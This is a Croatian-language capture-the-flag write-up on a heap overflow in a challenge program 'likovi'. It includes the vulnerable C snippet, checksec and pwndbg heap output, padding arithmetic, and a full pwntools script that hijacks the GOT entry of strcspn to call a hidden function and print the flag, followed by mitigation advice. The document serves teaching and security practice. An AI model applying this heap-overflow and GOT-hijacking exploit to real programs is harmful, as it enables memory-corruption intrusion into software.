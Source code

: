# Writeup

## Otkrivanje ranjivosti



Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **heap overflow** kod urešivanja opisa postojećeg lika.

```
printf("Novi opis (ostavi prazno za ostavljanje starog):\n");
char privOpis[500];
strcpy(privOpis, likovi[index]->opis);
fgets(likovi[index]->opis, 600, stdin);
likovi[index]->opis[strcspn(likovi[index]->opis, "\n")] = '\0';
if(strlen(likovi[index]->opis) == 0){
	strcpy(likovi[index]->opis, privOpis);	
}
```

U programu je za opis pojedinog lika rezervirano polje od 500 bajtova, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 600 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.
```
└─$ checksec --file=likovi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               3               likovi
```
Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.


## Objašnjenje ranjivosti

Već je u prošlom zadatku objašnjen PIE pa se ovdje smatra da se razumije.

Kako bi se bolje razumijela ranjivost **heap overflow**, može se pogledati sadržaj heap-a u programu pomoću programa ```gdb``` u kombinaciji s ```pwndbg```. Za vizualni prikaz heap-a koristi se naredba ```vis```:


```
pwndbg> vis

...

0x405290        0x0000000000000000      0x0000000000000021      ........!.......
0x4052a0        0x00000000004052c0      0x0000000000405300      .R@......S@.....
0x4052b0        0x0000000000000000      0x0000000000000041      ........A.......
0x4052c0        0x0000006a6f726548      0x0000000000000000      Heroj...........
0x4052d0        0x0000000000000000      0x0000000000000000      ................
0x4052e0        0x0000000000000000      0x0000000000000000      ................
0x4052f0        0x0000000000000000      0x0000000000000201      ................
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
0x405310        0x002e6b696e746172      0x0000000000000000      ratnik..........
0x405320        0x0000000000000000      0x0000000000000000      ................

...

0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
0x405500        0x0000000000405520      0x0000000000405560       U@.....`U@.....
0x405510        0x0000000000000000      0x0000000000000041      ........A.......
0x405520        0x6361766f6b696c5a      0x0000000000000000      Zlikovac........
0x405530        0x0000000000000000      0x0000000000000000      ................
0x405540        0x0000000000000000      0x0000000000000000      ................
0x405550        0x0000000000000000      0x0000000000000201      ................
0x405560        0x696c6b756d646f50      0x76616b756c206920      Podmukli i lukav
0x405570        0x6e626f7261632069      0x000000002e6b616a      i carobnjak.....
0x405580        0x0000000000000000      0x0000000000000000      ................
0x405590        0x0000000000000000      0x0000000000000000      ................

...
```


Ovdje se može vidjeti kako se na heap-u nalaze podaci o dva lika: Heroj i Zlikovac.
Njihovi chunck-ovi započinju sa ```0x0000000000000021```. Nakon toga slijede dvije adrese koje također pokazuju na heap. Zo su adresa sadržaja imena lika i adresa sadržaja opisa lika.
Ispod tih adresa nalazi se stvarni sadržaj imena i opisa lika. Ime je veliko 50 bajtova, a opis 500 bajtova. 
Vidi se da se podaci za oba lika nalaze jedan pored drugog.
Budući da se na adresu opisa lika upisuje 600 bajtova (to je više nego rezervirana veličina), može se manipulirati sadržajem koji se nalazi izvan opisa lika. Ovdje je važno da nakon opisa prvog lika slijedi chunk za drugog lika.

 
Ovdje se može iskoristiti napad ```GOT hijacking``` kako bi se preusmjerilo izvršavanje programa na funkciju ```ispisiTajnuPoruku```.
GOT (Global Offset Table) je tablica u memoriji koja pohranjuje adrese vanjskih funkcija i varijabli koje se dinamički povezuju tijekom izvršavanja programa.
Ideja je da se uredi jedan zapis funkcije koja se poziva pomoću GOT tablice tako da pokazuje na funkciju ```ispisiTajnuPoruku```. Prva vanjska funkcija koja se poziva je ```strcspn```.

Siruacija u kojoj se može iskoristiti napad je slijedeća:
 - Prvo se uređuje opis prvog lika (Heroj) na način da se u njega upiše: padding do drugog chunka + informacije o chunku (ostaju iste) + adresa funkcije ```strcspn``` iz GOT tablice
 - Zatim se uređuje ime drugog lika (Zlikovac) na način da se u njega upiše adresa funkcije ```ispisiTajnuPoruku```.
 - programski poziv funkcije ```strcspn``` uzrokuje poziv funkcije ```ispisiTajnuPoruku```



Kako bi se izračunao potreban padding, treba se pogledati adresa na kojoj započinje opis prvog lika. 
```
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
```
Ona je ```0x405300```.


Zatim se treba odrediti na kojoj adresi započinje chunk drugog lika. 
```
0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
```
Ona je ```0x4054f8```.

Izračun paddinga:

```
0x4054f0 - 0x405300 = 1F0 = 496 (dec)
496 + 8 = 504
```

Potreban padding je 504 bajta.





## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava heap overflow ranjivost u zadatku. 
Koraci programa:
 - Odabire se opcija za uređivanja likova (4)
 - Odabire se prvi lik (1)
 - Unosi se novi opis lika koji uređuje sadržaj podataka drugog lika i s time omogućuje uređivanje GOT tablice
 - Ponovi se odabir opcije uređivanja likova (4)
 - Odabire se drugi lik (2)
 - Unosi se novi naziv lika koji je adresa funkcije ```ispisiTajnuPoruku```.


```
from pwn import *

io = process("./likovi")
elf = ELF("./likovi")

# = = = START

# Part1

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")

print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"1")

print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))
io.sendline(b"")

print(io.recvuntil(b"Novi opis (ostavi prazno za ostavljanje starog):"))


payload = b""

padding = b"A" * 504

chunk_info = p64(0x21)


strcspn = p64(elf.got["strcspn"])
print(f"Adresa strcspn = {elf.got["strcspn"]:#x}")

payload += padding + chunk_info + strcspn

io.sendline(payload)
print(payload)

# Part2

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")


print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"2")


print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))


payload2 = b""

ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])

payload2 += ispisiTajnuPoruku


io.sendline(payload2)
print(payload2)


# = = = END


io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[H3AP_c0ntr0l1ng_G0T]```

## Edukativne smjernice
- Heap overflow je napad kod kojeg se unos veći od rezerviranog memorijskog prostora na heapu (buffera) upisuje izvan granica buffera i može prebrisati podatke u susjednim chunk-ovima.
- Za zaštitu od ove ranjivosti preporučuje se:
    - Provjeriti i ograničiti duljinu korisničkog unosa
    - Koristiti sigurnije funkcije za kopiranje niza: ```strncpy``` i ```memcpy_s```. One imaju točno definirane veličine za kopiranje.
    - Uključiti heap canary zaštitu (gcc ... -fsanitize=address) kako bi se pri pisanju izvan granica buffera detektiralo prepisivanje i odmah zaustavilo izvođenje programa.
    - Aktivirati ASLR/PIE kako bi adrese na heap-u bile nasumične i teže predvidljive.
